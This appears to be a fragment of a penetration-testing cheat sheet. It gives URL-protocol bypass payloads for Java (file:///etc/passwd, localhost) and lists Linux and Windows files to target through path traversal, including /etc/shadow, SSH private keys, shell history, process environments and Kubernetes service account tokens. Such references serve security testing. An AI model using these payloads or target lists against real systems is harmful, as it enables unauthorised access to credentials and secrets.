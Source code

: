 
### Java Bypass

Bypass Java's URL protocol

```powershell
url:file:///etc/passwd
url:http://127.0.0.1:8080
```


## Path Traversal

### Interesting Linux files

```powershell
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/certificate
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/plocate/plocate.db
/var/lib/mlocate.db
```

### Interesting Windows files

Always existing file in recent Windows machine. 
Ideal to test path traversal but nothing much interesting inside...

```powershell
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt
```

